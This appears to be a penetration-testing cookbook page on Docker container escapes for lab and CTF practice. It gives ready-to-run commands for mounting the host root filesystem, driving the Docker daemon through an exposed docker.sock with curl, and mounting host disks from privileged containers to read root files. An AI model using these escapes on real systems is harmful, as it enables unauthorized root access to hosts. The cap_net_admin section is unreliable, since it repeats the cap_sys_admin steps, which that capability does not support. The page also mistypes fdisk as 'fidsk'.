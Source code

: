 ```yaml
---
layout: default
title: Docker
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[PrivEsc with docker](https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17)

[Docker socket](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd)

[GTFOBins docker page](https://gtfobins.github.io/gtfobins/docker/)

[Docker run command](https://docs.docker.com/engine/reference/commandline/container_run/)

[Docker api reference](https://docs.docker.com/engine/api/v1.40/#)

[Container escape](https://attackdefense.com/challengedetailsnoauth?cid=1196)

[Container escape](https://attackdefense.com/challengedetailsnoauth?cid=1197)

<br />

## Docker run
See the [docker run cli reference](https://docs.docker.com/engine/reference/commandline/container_run/) for more details and a full list of options.

|Command|Description|
|:---|:---|
|`--rm`|Automatically remove the container when finished.|
|`--interactive`, `-i`|Start the container in interactive mode so you can use it.|
|`--tty`, `-t`|Start a `tty` so you can interactive with the container.|
|`--volume`, `-v`|Mount a volume at the specified location.|
|`--volume /:/mnt`|Mount the root of the host to `/mnt` within the container.|
|`--volume /root:/mnt`|Mount root's home folder of the host to `/mnt/` within the container.|

<br />

## Container Escapes
*In general, you probably need to be `root` in container before trying to escape it.*  

<br />

### Docker run
You'll need a `docker` binary in the container in order to use `docker run`. If you have a shell on the host system you can check if the host and the container are on the same network. If they are, you may be able to `wget` the docker binary from the host to the container.

```
// Download the 'hello-world' container from the docker repo and run it.
docker run hello-world

// Run the 'ubuntu' container in interactive mode with a tty and execute the command /bin/bash to return a shell and automatically clean up once complete.
docker run --rm --interactive --tty ubuntu /bin/bash

// Shorthand version of the same command.
docker run --rm -it ubuntu /bin/bash

// Mount the entire / volume of the host machine to /mnt within the container 'ubuntu' and performs a 'chroot' on /mnt inside the container.
docker run --rm --volume /:/mnt -it ubuntu chroot /mnt

// Mount the /root directory of the host machine to /mnt within the container.
docker run --rm --volume /root:/mnt -it ubuntu
```

<br />

### Docker socket
If there is a `docker.sock` socket in `/var/run/` of the container, you can communicate with the docker daemon on the host (see [this article](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd) for more details). Most of the docker endpoints are mapped to commands, for example `GET http://localhost/containers/json` maps to `docker ps`. See the right-hand side of the [docker specification](https://docs.docker.com/engine/api/v1.40/#) page for details of the endpoints. For example:

```
// Request the summary image data..
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

`POST` can be used to do things like create and run containers, for example:

```
// Create a container via the docker.sock socket.
curl -X POST --unix-socket /var/run/docker.sock -d '{"Image":"nginx"}' -H 'Content-Type: application/json' http://localhost/containers/create

{"Id":"age65...g45","Warnings":null}

// Start the container.
curl -X POST --unix-socket /var/run/docker.sock http://localhost/containers/age65...g45/start
```

<br />

### Container started with cap_sys_admin network admin capability
*This needs `root` in the container first.*

[See this video for walkthrough](https://attackdefense.com/challengedetailsnoauth?cid=1196)

If the container has been started in privileged mode or with additional capabilities, it may be possible to mount the host file system and execute commands as root. First, check for the `cap_sys_admin` network admin privilege:
```
capsh --print | grep -i cap_sys_admin
```

If `cap_sys_admin` is present in the output, check what disks can be found:
```
fidsk -l
```

**Disk /dev/sda: 20GiB, 12474836480 bytes, 41943040 sectors**<br />
Units: ...<br />
<br />
**Device&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sectors&nbsp;&nbsp;&nbsp;Size&nbsp;&nbsp;&nbsp;&nbsp;Type**<br />
/dev/sda1&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2048&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4095&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2048&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1M&nbsp;&nbsp;&nbsp;&nbsp;BIOS boot<br />
/dev/sda2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4096&nbsp;&nbsp;&nbsp;&nbsp;37746687&nbsp;&nbsp;&nbsp;&nbsp;37742592&nbsp;&nbsp;&nbsp;&nbsp;18G&nbsp;&nbsp;&nbsp;&nbsp;Linux filesystem<br />
/dev/sda3&nbsp;&nbsp;&nbsp;&nbsp;37746688&nbsp;&nbsp;&nbsp;&nbsp;41940991&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4194304&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2G&nbsp;&nbsp;&nbsp;&nbsp;Linux swap<br />

<br />

From the output it's clear the host file system can be found on `/dev/sda2`. Mount the filesystem:
```
mkdir /tmp/m
mount /dev/sda2 /tmp/m
```

Use `chroot` to change bash's `root` location to the mount point:
```
chroot /tmp/m bash
```

Cat the flag:
```
cd /root/
cat root.txt
```

<br />

### Container started with cap_net_admin network admin capability
*This needs `root` in the container first.*

[See this video for walkthrough](https://attackdefense.com/challengedetailsnoauth?cid=1197)

If the container has been started in privileged mode or with additional capabilities, it may be possible to mount the host file system and execute commands as root. First, check for the `cap_net_admin` network admin privilege:
```
capsh --print | grep -i cap_net_admin
```

If `cap_net_admin` is present in the output, check what disks can be found:
```
fidsk -l
```

**Disk /dev/sda: 20GiB, 12474836480 bytes, 41943040 sectors**<br />
Units: ...<br />
<br />
**Device&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sectors&nbsp;&nbsp;&nbsp;Size&nbsp;&nbsp;&nbsp;&nbsp;Type**<br />
/dev/sda1&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2048&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4095&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2048&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1M&nbsp;&nbsp;&nbsp;&nbsp;BIOS boot<br />
/dev/sda2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4096&nbsp;&nbsp;&nbsp;&nbsp;37746687&nbsp;&nbsp;&nbsp;&nbsp;37742592&nbsp;&nbsp;&nbsp;&nbsp;18G&nbsp;&nbsp;&nbsp;&nbsp;Linux filesystem<br />
/dev/sda3&nbsp;&nbsp;&nbsp;&nbsp;37746688&nbsp;&nbsp;&nbsp;&nbsp;41940991&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4194304&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2G&nbsp;&nbsp;&nbsp;&nbsp;Linux swap<br />

<br />

From the output it's clear the host file system can be found on `/dev/sda2`. Mount the filesystem:
```
mkdir /tmp/m
mount /dev/sda2 /tmp/m
```

You can now query the mounted file system:
```
cd /tmp/m/root
cat root.txt
```